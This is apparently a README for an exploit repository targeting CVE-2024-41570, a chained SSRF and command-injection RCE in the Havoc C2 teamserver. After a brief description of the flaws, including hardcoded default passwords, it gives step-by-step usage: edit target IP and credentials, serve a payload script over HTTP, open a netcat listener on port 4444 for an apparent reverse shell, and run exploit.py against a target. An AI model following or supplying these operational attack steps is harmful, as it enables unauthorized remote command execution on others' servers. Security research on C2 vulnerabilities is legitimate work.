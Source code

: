 # Havoc-C2-RCE (CVE-2024-41570)
This is a Chained RCE (CVE-2024-41570) in the Havoc C2 framework.

Command injection: Havoc is vulnerable to command injection enabling an authenticated user to execute commands on the Teamserver. Affects versions 0.3 up to the latest release 0.6. Havoc's default profile contains hardcoded passwords, so a C2 operator careless enough to use the default profile on a public network can immediately be exploited.

SSRF: This vulnerability is exploited by spoofing a demon agent registration and checkins to open a TCP socket on the teamserver and read/write data from it. This allows attackers to leak origin IPs of teamservers and much more.

Chain: Abusing SSRF to deliver an authenticated command injection payload.

# How to use
![2025-01-19 20-01-34](https://github.com/user-attachments/assets/e57accee-6d1e-4633-aa32-a0ee07c42988)

```
1. Modify the IP, USER and PASSWORD in the exploit.py file.
2. Modify IP in payload.sh

-> python3 -m venv myenv && source myenv/bin/activate
-> pip3 install -r requirements.txt
-> chmox +x payload.sh
-> python3 -m http.server (On another terminal)
-> nc -lvnp 4444 (On another terminal)

# Run the exploit
(myenv) -> python3 exploit.py -t https://site.com -i 0.0.0.0 -p 12345
```

Credits to [@chebuya](https://github.com/chebuya/Havoc-C2-SSRF-poc) and [@Hyperreality](https://github.com/IncludeSecurity/c2-vulnerabilities/blob/main/havoc_auth_rce/havoc_rce.py)
